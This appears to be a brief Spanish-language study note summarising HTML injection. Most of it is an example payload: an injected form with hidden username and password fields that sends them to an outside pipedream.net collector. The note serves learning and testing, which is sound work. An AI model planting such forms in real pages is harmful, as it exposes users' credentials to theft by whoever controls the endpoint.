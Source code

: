 - --
###  Resumen de la Vulnerabilidad: HTML Injection

#### 💡 Ejemplo de Explotación
El código HTML mostrado en la imagen se puede insertar en una página vulnerable para capturar credenciales:
```html
<form action="https://eo2iwcccmp2l4wb.m.pipedream.net" method="GET">
    <input type="text" name="username" hidden>
    <input type="password" name="password" hidden>
    <button type="submit">Click me</button>
</form>
```

---
